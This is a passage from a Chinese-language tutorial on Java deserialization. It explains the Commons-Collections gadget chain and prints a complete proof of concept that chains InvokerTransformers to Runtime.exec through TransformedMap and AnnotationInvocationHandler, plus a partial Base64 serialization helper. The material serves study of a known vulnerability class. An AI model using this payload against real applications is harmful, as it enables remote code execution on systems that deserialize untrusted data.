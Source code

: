 9. 至此得出结论：`transformedMap` 中的键要有，和 `AnnotationInvocationHandler` 构造函数的第一个参数（也就是注解类）中的成员名。

#### 3.6.5 PoC 编写

1. PoC 最终的构造如下：

    ```java
    // 构造转换器链
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
    };
    Transformer transformedChain = new ChainedTransformer(transformers);
    
    // 触发转换器链内所有转换器的 transform()
    HashMap<String, String> hashMap = new HashMap<>();
    TransformedMap<String, String> transformedMap = TransformedMap.transformingMap(hashMap, null, transformedChain);
    // 这里的 key 要注意，和下文注解类中的成员名称一致
    hashMap.put("value", "随便");
    // transformedMap.entrySet().iterator().next().setValue("123");
    // 通过反射，获取到 class 类对象
    Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    // 通过 class 类对象获取 class 类对象的构造函数
    Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
    // 取消其访问检查（即绕过 protected 和 private 关键字修饰，直接对其变量赋值），
    aIHClassDeclaredConstructor.setAccessible(true);
    // 通过 class 类对象的构造函数实例化对象
    // 这里第一个参数要注意，注解类中要有成员
    Object newInstance = aIHClassDeclaredConstructor.newInstance(Target.class, transformedMap);
    String serialize = serialize(newInstance);
    unSerialize(serialize);
    ```

2. 如果序列化流是通过 Base64 传输的，而不是文件：

    ```java
    // 序列化
    public String serialize(Object payload) {
        // 创建恶意类
        // 创建文件对象
        ObjectOutputStream out = null;
        try {
            // 将恶意类序列化（这里不用文件流，改用字节流并用 base64 加密
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            out = new ObjectOutputStream(byteArrayOutputStream);
            out.writeObject(payload);
            // 这里一定要用 toByteArray 将每个字节转成 string 后再编码。如果先 byteArrayOutputStream.toString() 全部转成 string 再 base64 编码，就会出现问题。
            return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        } catch (IOException e) {
            throw new RuntimeException(e);
        } finally {
            try {
                if (out != null) {
                    out.flush();
                    out.close();
                }
            } catch (IOException e) {
                throw new RuntimeException(e);
            }